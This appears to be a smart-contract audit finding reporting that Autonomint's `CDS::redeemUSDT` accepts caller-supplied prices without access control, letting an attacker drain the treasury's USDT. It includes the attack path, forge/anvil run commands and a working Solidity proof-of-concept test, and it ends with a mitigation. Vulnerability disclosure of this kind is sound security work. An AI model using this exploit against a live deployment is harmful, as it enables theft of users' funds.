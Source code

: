 Damp Champagne Otter

High

# Attacker can drain the Treasury of Funds by calling `CDS::redeemUSDT`

### Summary

The function `CDS::redeemUSDT` takes `usdaPrice` and `usdtPrice` as parameters. Thus, the caller can set the price to whatever they desire and change the exchange rate of USDA to USDT. For example they can trade 1 USDA into 1000 USDT and effectively drain the treasury of all USDT.

### Root Cause

https://github.com/sherlock-audit/2024-11-autonomint/blob/main/Blockchain/Blockchian/contracts/Core_logic/CDS.sol#L506-L510
The problem is the `redeemUSDT` is not accessed controlled and allows an attacker to input any price.

### Internal pre-conditions

1. The treasury must have USDT to steal
2. The attacker must own a small amount of USDA

### External pre-conditions

_No response_

### Attack Path

1. The attacker mints USDA by depositing USDT into the protocol or buys it on an AMM etc.
2. Calls `CDS::redeemUSDT` with any desired price.

### Impact

The treasury will be drained of all USDT holdings.

### PoC

To run the test run the following commands:
1. `anvil --fork-url https://mainnet.mode.network`
2. Paste the test into the 'Borrowing.t.sol` test.
3. `forge test --fork-url http://127.0.0.1:8545 --mt test_drainTreasury -vvv`

```solidity
   function test_drainTreasury() public {
        vm.startPrank(USER);
        //first lets mint the treasury some USDT
        contractsA.usdt.mint(address(contractsA.treasury), 10_000e6);

        uint256 startinUsdtBalance = contractsA.usdt.balanceOf(USER);
        //uint256 usdaBalance = contractsA.usda.balanceOf(USER);
        console.log(startinUsdtBalance);
        uint256 mintAmount = 100e6; //it has 6 decimals
        contractsA.usda.mint(USER, mintAmount);
        contractsA.usda.approve(address(contractsA.cds), mintAmount);
        uint64 usdtPrice = 1e2;
        uint64 usdaPrice = 10 * usdtPrice;
        contractsA.cds.redeemUSDT{value: globalFee.nativeFee}(uint128(mintAmount), usdaPrice, usdtPrice);
        uint256 endingUsdtBalance = contractsA.usdt.balanceOf(USER);
        console.log("the ending balance of usdt: ", endingUsdtBalance);
        //sample console log
        /* Logs:
            0
            the ending balance of usdt:  1000_000_000 
        */
        // we turn $100 usda into $1000 usdt
    }
```


### Mitigation

The exact purpose of the function is a little unclear. However, it needs to have `access control` so that the correct price is passed as an input or remove the price from the input parameters and correctly retrieve the price from an oracle.